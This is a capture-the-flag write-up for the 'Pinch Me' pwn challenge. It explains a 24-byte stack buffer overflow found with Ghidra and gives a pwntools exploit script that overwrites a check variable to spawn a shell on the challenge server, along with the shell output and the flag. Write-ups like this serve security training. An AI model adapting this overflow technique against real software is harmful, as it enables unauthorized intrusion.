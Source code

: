 ## Pinch Me (100 Points)

### Problem
```
This should be easy!

nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480

File: pinch_me
```

### Solution
I opened the binary in Ghidra and looked at `main()` and `vuln()`.

It looks pretty similar to the [Pwn Sanity Check](PwnSanityCheck.md) challenge, we need to overflow our input and ensure the shell gets executed.

Looking at `vuln()` we see that `fgets` reads in `100` bytes into `local_28` which only has `24` bytes allocated - so the remaining bytes will overflow into `local_10`.
We see from the C code that there's a condition to be met before the shell executes.

```C
if (local_10 == 0x1337c0de) {
  system("/bin/sh");
}
```

Can we just send 24 bytes of data and use `p64` to pack the address `0x1337c0de` so then our condition will be met? Let's write some Python and find out.


```python
from pwn import *

host = remote('dctf1-chall-pinch-me.westeurope.azurecontainer.io', 7480)
host.recv()

buffer_overflow = b'a'*24
buffer_overflow += p64(0x1337c0de)

host.sendline(buffer_overflow)
host.interactive()
```

Running our exploit...

```
❯ python3 exploit.py
[+] Opening connection to dctf1-chall-pinch-me.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
$ ls
flag.txt
pinch_me
startService.sh
$ cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}
```


Flag: `dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}`
